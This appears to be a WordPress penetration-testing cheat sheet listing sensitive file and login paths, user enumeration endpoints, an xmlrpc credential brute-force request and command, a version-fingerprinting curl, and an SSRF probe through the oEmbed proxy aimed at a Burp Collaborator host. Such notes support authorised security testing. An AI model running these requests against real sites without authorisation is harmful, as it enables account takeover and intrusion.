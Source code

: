 

# download
https://wordpress.org/download/

## Vulnerability
https://patchstack.com/database/
https://wpscan.com/wordpress/60/


## hacks
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
- https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/wordpress/


## Basic Information
/wp-content/uploads/2018/08/a.txt
/wp-content/themes/twentytwelve/404.php
/wp-content/themes/default/404.php

## Main WordPress Files
/index.php
/license.txt
/readme.html
/wp-activate.php
/wp-sitemap.xml
/robots.txt
/sitemap.xml
/feed
/wp-includes/functions.php
/xmlrpc.php

## Login folders (may be renamed to hide it):
/wp-admin/login.php
/wp-admin/wp-login.php
/login.php
/wp-login.php
/wp-login/
/wp-admin/
/wp-admin.php
/login/

## Configuration files
/.htaccess
/wp-config.php              #information required by WordPress to connect to the database.
/_wpeprivate/config.json

## xmlrpc.php
POST /xmlrpc.php --data <methodCall><methodName>system.listMethods</methodName><params></params></methodCall>
./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1


## main directory where plugins and themes are stored.
/wp-content/
/wp-content/uploads/
/wp-includes/
/uploads
/upload

## information required by WordPress to connect to the database.
/wp-config.php

## Users Permissions
- Administrator
- Editor: Publish and manages his and others posts
- Author: Publish and manage his own posts
- Contributor: Write and manage his posts but cannot publish them
- Subscriber: Browser posts and edit their profile

## Get WordPress version
curl https://victim.com/ | grep 'content="WordPress'
<meta name="generator"
CSS link files
JavaScript files

## User enumeration
/?author=XXX
/wp-json/wp/v2/users
/wp-json/oembed/1.0/embed?url=POST-URL
/wp-json/wp/v2/pages
/wp-json/?rest_route=/wp/v2/users

## Credentials Bruteforce
POST /xmlrpc.php
<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>pass</value></param></params></methodCall>

## /wp-json/oembed/1.0/proxy - SSRF
https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net 


## Auto scan
wpscan